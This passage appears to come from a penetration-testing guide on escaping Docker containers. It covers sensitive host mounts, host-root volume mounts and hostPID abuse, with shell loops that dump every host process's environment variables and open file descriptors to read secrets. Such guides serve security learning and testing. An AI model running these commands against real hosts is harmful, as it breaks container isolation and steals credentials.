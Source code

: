 There are several files that might mounted that give **information about the underlaying host**. Some of them may even indicate **something to be executed by the host when something happens** (which will allow a attacker to escape from the container).\
The abuse of these files may allow that:

* release\_agent (already covered before)
* [binfmt\_misc](docker-breakout-privilege-escalation/sensitive-mounts.md#proc-sys-fs-binfmt\_misc)
* [core\_pattern](docker-breakout-privilege-escalation/sensitive-mounts.md#proc-sys-kernel-core\_pattern)
* [uevent\_helper](docker-breakout-privilege-escalation/sensitive-mounts.md#sys-kernel-uevent\_helper)
* [modprobe](docker-breakout-privilege-escalation/sensitive-mounts.md#proc-sys-kernel-modprobe)

However, you can find **other sensitive files** to check for in this page:

{% content-ref url="docker-breakout-privilege-escalation/sensitive-mounts.md" %}
[sensitive-mounts.md](docker-breakout-privilege-escalation/sensitive-mounts.md)
{% endcontent-ref %}

### Arbitrary Mounts

In several occasions you will find that the **container has some volume mounted from the host**. If this volume wasn’t correctly configured you might be able to **access/modify sensitive data**: Read secrets, change ssh authorized\_keys…

```bash
docker run --rm -it -v /:/host ubuntu bash
```

### hostPID

If you can access the processes of the host you are going to be able to access a lot of sensitive information stored in those processes. Run test lab:

```
docker run --rm -it --pid=host ubuntu bash
```

For example, you will be able to list the processes using something like `ps auxn` and search for sensitive details in the commands.

Then, as you can **access each process of the host in /proc/ you can just steal their env secrets** running:

```bash
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done
/proc/988058/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=argocd-server-69678b4f65-6mmql
USER=abrgocd
...
```

You can also **access other processes file descriptors and read their open files**:

```bash
for fd in `find /proc/*/fd`; do ls -al $fd/* 2>/dev/null | grep \>; done > fds.txt
less fds.txt
...omitted for brevity...
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/2 -> /dev/pts/0
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/4 -> /.secret.txt.swp
# You can open the secret filw with:
cat /proc/635813/fd/4
```
